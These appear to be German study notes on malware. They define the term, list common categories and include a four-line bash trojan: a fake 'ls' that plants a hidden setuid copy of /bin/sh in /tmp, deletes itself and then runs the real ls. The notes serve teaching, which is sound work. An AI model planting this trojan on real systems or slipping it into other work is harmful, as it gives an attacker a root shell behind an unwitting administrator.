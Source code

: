 Als Malware oder Schadsoftware bezeichnet man unerwünschte Software, die die Integrität des Zielsystems gefährdet und eine Schadfunktion (sog. Payload) besitzt.

**Typische Malware-Kategorien:**
- `Trojaner`
- `Viren`
- `Würmer`
- `Backdoors`
- `Sniffer`, `Spyware`, `Keylogger`
- `Botnets`
- `Scareware`
- `Ransomware`

# Einfacher Bash-`Tojaner`
Angreifer platziert Skript `ls` in Linux-System, argloser Admin führt es aus.
``` bash
cp /bin/sh /tmp/.xxsh
chmod u+s,o+x /tmp/.xxsh
rm ./ls
ls $*
```

# `Ransomware` Beispiel: "Wannacry"
![[wannacry.png]]
